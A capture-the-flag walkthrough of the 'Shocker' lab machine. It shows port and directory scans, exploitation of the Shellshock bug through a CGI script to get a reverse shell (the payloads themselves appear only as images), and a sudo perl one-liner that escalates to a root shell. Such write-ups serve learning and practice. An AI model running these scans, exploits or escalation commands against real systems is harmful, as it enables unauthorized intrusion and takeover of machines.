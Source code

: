 # Shocker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 12:22 EDT
Nmap scan report for 10.129.85.146
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-
```

Port 80 is open.

### Shellshock

When the webpage is visited, all we see is this:

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

I did a `feroxbuster` script on the website.&#x20;

```
$ feroxbuster -u http://10.129.85.146 -f -n      

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.85.146
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        9l       13w      137c http://10.129.85.146/
403      GET       11l       32w      296c http://10.129.85.146/cgi-bin/
403      GET       11l       32w      294c http://10.129.85.146/icons/
403      GET       11l       32w      302c http://10.129.85.146/server-status/
```

I continued fuzzing and found a `user.sh` file. When downloaded, this is the response:

```http
HTTP/1.1 200 OK
Date: Wed, 03 May 2023 16:27:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 119

Content-Type: text/plain

Just an uptime test script

 12:27:22 up 40 min,  0 users,  load average: 0.58, 0.31, 0.11
```

The Content-Type was unique and I've never seen that before. A quick Google search on exploits regarding it led to Shellshock.&#x20;

{% embed url="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" %}

This software bugs allows us to have RCE on the website because of how environments variables are handled poorly in some websites. We can test it out by sending requests to the `user.sh` file and seeing if any bash commands get executed.&#x20;

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

So it does work. We can replace the `ping` command with a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Perl

When checking `sudo` permissions, we see this:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Based on GTFOBins, we just need to execute this to get a `root` shell.

{% code overflow="wrap" %}
```bash
sudo perl -e 'exec "/bin/bash";'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

Rooted!
